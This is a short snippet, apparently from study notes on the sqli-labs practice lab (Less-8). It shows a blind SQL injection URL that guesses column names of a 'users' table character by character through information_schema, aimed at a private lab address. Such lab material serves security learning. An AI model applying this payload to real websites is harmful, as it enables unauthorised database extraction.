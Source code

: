 ```sql
//爆字段
http://192.168.65.128/sqli-labs/Less-8/?id=1' 
and substr((select column_name from information_schema.columns where table_schema='security' and table_name='users'  limit 0,1),1,1)='i' --+
```

![](file/image_F6xcBRMnAb.png)
